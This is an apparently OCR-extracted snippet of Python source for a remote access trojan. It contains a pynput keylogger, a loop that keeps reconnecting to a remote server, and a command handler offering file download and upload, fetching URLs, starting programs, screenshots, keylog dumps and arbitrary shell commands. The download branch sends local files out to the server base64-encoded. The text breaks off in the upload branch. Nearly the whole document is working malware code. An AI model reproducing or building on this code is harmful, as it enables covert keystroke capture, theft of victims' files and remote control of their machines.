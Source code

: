 ```python
def kl_start():
    keyboard_listener = pynput.keyboard.Listener(on_press=process_keys)
    with keyboard_listener:
        writekeys() 
        keyboard_listener.join()
        
def reliable_send(data):
    json_data =json.dumps(data)
    s.send(bytes(json_data,encoding="utf-8"))
def reliable_recv():
    json_data=bytearray(0)
    while True:
        try:
            json_data+= s.recv(1024)
            
            return json.loads(json_data)
        except ValueError:
            continue
def connection():
    while True:
        try:
            s.connect((ServerIP,ServerPort))
            communication()
        except:
            time.sleep(5)
            continue
def communication():
    while True:
        command =reliable_recv()
        if command =="q":
            try:
                os.remove(kl.file)
            except:
                continue
            break
        elif command[:4] =="help":
            help_data = '''cd [path]
            download [filename]
            upload [filename]
            get [url]
            start [program]
            screenshot
            check
            keylog_start
            keylog_dump
            [cmd command]
            q'''
            reliable_send(help_data)
        elif command[:2] =="cd" and len(command)>1:
            try:
                os.chdir(command[3:])
            except:
                continue
        elif command[:8] == "download":
            try:
                with open(command[9:],"rb") as file_down:
                    content = file_down.read()
                    reliable_send(base64.b64encode(content).decode("ascii"))
            except:
                failed="[!!] Fail to download!"
                reliable_send(failed)
        elif command[:6]=="upload":
            result =reliable_recv()
```